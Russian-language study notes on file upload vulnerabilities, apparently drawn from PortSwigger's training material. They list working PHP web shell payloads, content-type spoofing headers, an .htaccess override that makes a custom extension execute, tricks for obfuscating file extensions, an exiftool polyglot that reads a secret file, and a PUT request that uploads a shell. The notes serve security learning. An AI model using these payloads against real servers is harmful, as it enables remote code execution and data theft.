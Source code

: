 [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
## Эксплуатация неограниченной загрузки файлов для развертывания веб-оболочки
	<?php echo file_get_contents('/path/to/target/file'); ?>
	<?php echo system($_GET['command']); ?>
	GET /example/exploit.php?command=id HTTP/1.1

## Эксплуатация несовершенной проверки загружаемых файлов
##### Неправильная проверка типа файла
	Content-Disposition: form-data; name="image"; filename="exploit.php"
	Content-Type: image/jpeg

### Предотвращение выполнения файлов в каталогах, доступных пользователю
Веб-серверы часто используют поле `filename` в запросах `multipart/form-data` для определения имени и места сохранения файла.

### Недостаточный черный список опасных типов файлов
Черные списки иногда можно обойти, используя менее известные, альтернативные расширения файлов, которые могут быть исполняемыми, например .php5, .shtml и так далее.

### Переопределение конфигурации сервера
Чтобы Apache выполнял файлы PHP, запрошенные клиентом, разработчики должны добавить следующие директивы в файл `/etc/apache2/apache2.conf`:

	LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php

Многие серверы также позволяют разработчикам создавать специальные конфигурационные файлы в отдельных каталогах, чтобы переопределить или добавить к одной или нескольким глобальным настройкам. Серверы Apache, например, загружают конфигурацию для конкретной директории из файла `.htaccess`, если таковой имеется. 

Для эксплуатации можно перезаписать этот файл содержимым:

	AddType application/x-httpd-php .l33t

В запросе загрузки файла изменить заголовок:

	Content-Type: text/plain

И загрузить файл `shell.l33t` с хедерами:

	Content-Disposition: form-data; name="avatar"; filename="shell.l33t"
	Content-Type: application/x-httpd-php

На серверах IIS с помощью файла `web.config`:

	<staticContent>
	    <mimeMap fileExtension=".json" mimeType="application/json" />
	</staticContent>`

### Обфускация расширений файлов
Несколько расширений

	exploit.php.jpg

Символы в конце строки

	exploit.php.

Кодировка URL (или двойная) для точек, прямых и обратных косых черт

	exploit%2Ephp

Точка с запятой или символы нулевого байта, закодированные в URL, перед расширением файла:

	exploit.asp;.jpg
	exploit.asp%00.jpg

Если удаление/замена опасных расширений выполняется не рекурсивно:

	exploit.p.phphp

Многобайтовые символы юникода, которые могут быть преобразованы в нулевые байты и точки после преобразования или нормализации юникода. Последовательности типа `xC0 x2E`,` xC4 xAE` или `xC0 xAE` могут быть преобразованы в `x2E`, если имя файла анализируется как строка UTF-8, но затем преобразуются в символы ASCII перед использованием в пути.

### Неправильная проверка содержимого файла
С помощью специальных инструментов, таких как ExifTool, можно легко создать полиглотный файл JPEG, содержащий вредоносный код в своих метаданных:

	exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" kitten.jpg -o polyglot.php

[Статья Bypass File Upload Restrictions](https://medium.com/codex/bypass-file-upload-restrictions-f30c88e1fccb)

### Эксплуатация file upload race conditions
рейс кондишн это жоска

## Эксплуатация уязвимостей загрузки файлов без удаленного выполнения кода
##### Загрузка вредоносных сценариев на стороне клиента.
Если можно загружать файлы HTML или изображения SVG, потенциально можно использовать теги `<script>` для создания [хранимых XSS](xss.md).

Обращаем внимание на то, что из-за ограничений [same-origin policy](cors.md) эти виды атак будут работать только в том случае, если загруженный файл будет обслуживаться из того же источника, в который был загружен.

### Эксплуатация уязвимостей при парсинге загруженных файлов
Если кажется, что загруженный файл и хранится, и обслуживается безопасно, в крайнем случае можно попробовать использовать уязвимости, связанные с разбором или обработкой различных форматов файлов. Например, вы знаете, что сервер анализирует файлы на основе XML, такие как файлы Microsoft Office .doc или .xls, это может быть потенциальным вектором для атак [XXE-инъекций](xxe-injection.md).

## Загрузка файлов с помощью PUT
Стоит отметить, что некоторые веб-серверы могут быть настроены на поддержку запросов PUT. При отсутствии соответствующей защиты это может стать альтернативным способом загрузки вредоносных файлов, даже если функция загрузки недоступна через веб-интерфейс:

	PUT /images/exploit.php HTTP/1.1
	Host: vulnerable-website.com
	Content-Type: application/x-httpd-php
	Content-Length: 49
	
	<?php echo file_get_contents('/path/to/file'); ?>

Можно попробовать отправить запросы `OPTIONS` на различные конечные точки, чтобы проверить те из них, которые поддерживают метод `PUT`.